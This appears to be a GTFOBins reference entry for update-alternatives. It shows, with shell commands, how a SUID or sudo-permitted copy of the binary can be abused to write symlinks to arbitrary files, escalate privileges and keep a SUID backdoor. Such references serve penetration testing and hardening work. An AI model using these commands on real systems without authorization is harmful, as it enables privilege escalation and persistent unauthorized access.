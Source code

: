 # GTFOBin: update-alternatives

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Write in `$LFILE` a symlink to `$TF`.

```
sudo install -m =xs $(which update-alternatives) .

LFILE=/path/to/file_to_write
TF=$(mktemp)
echo DATA >$TF
./update-alternatives --force --install "$LFILE" x "$TF" 0
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Write in `$LFILE` a symlink to `$TF`.

```
LFILE=/path/to/file_to_write
TF=$(mktemp)
echo DATA >$TF
sudo update-alternatives --force --install "$LFILE" x "$TF" 0
```